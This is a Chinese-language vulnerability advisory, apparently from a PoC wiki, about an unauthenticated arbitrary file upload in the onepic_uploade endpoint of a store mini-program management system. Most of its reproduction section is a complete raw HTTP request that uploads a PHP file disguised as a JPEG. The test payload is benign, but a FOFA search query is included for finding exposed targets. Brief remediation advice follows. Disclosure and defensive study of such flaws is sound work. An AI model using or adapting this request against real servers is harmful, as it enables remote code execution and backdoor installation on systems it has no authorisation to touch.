

# 万能门店小程序管理系统 onepic_uploade 任意文件上传漏洞

# 漏洞描述

万能门店小程序管理系统 onepic_uploade 存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

# 影响版本

万能门店小程序管理系统

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="/comhome/cases/index.html"

POC/EXP：

POST /comadmin/Remote/onepic_uploade?file=file HTTP/1.1
Host: 127.0.0.1
Connection: keep-alive
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryBiKyL9D0p5OtH5zz
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryBiKyL9D0p5OtH5zz
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();unlink(__FILE__);?>
------WebKitFormBoundaryBiKyL9D0p5OtH5zz--

# 漏洞修复

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
